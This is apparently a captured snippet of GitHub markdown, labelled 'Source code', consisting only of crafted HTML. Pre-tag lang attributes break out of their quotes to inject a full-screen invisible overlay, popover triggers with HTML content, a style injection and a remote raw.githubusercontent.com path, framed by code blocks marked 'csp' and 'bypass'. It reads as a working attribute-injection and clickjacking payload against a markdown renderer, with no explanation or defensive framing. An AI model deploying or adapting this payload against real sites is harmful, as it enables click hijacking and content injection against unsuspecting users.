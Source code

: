 <a>
    <pre lang='/" data-diff-for-path=(https://raw.githubusercontent.com/smartaptlimited/new/main/aaa.json) '>
        <code lang="wavedrom">csp</code>
    </pre>
    <pre
        lang='/" id=stage1 style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle=popover data-html=true data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content=ggg '>
    <code lang="wavedrom">
    bypass
    </code>
    </pre>
</a>
